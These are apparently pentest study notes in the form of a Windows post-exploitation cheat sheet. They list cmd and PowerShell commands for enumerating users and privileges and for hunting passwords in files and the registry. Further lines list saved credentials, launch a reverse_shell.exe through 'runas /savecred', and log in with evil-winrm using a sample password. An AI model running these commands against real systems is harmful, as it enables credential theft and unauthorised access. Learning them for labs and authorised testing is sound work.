   ```cmd
  whoami
  # user

  whoami /priv
  # current user privileges

  whoami /groups

  net users
  # list users

  net user Administrator
  # list user details

  qwinsta
  # other users logged in

  net localgroup
  # users groups

  net localgroup Administrators
  # list group members

  systeminfo
  # verbose output

  systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
  # shows only required info

  hostname

  gci -force
  # show hidden directories in PS

  findstr /si password *.txt
  # recursively search all directories for 'password' string in text files

  # for extended password hunting, check the PasswordAttacks module from HTB
  # it includes a section on finding creds

  cmdkey /list
  # lists saved credentials

  runas /savecred /user:admin reverse_shell.exe
  # try credentials

  # registry keys can also contain passwords
  reg query HKLM /f password /t REG_SZ /s

  reg query HKLM /f password /t REG_SZ /s

  reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
  # check for password reuse as well

  # if we have credentials for a user, test it
  evil-winrm -u "joe" -p "p@ssw0rd!" -i target.com

  # for port forwarding, we can use plink.exe

  wmic qfe get Caption,Description,HotfixID,InstalledOn
  # lists updates installed using wmic tool

  wmic logicaldisk get caption,description,providername
  ```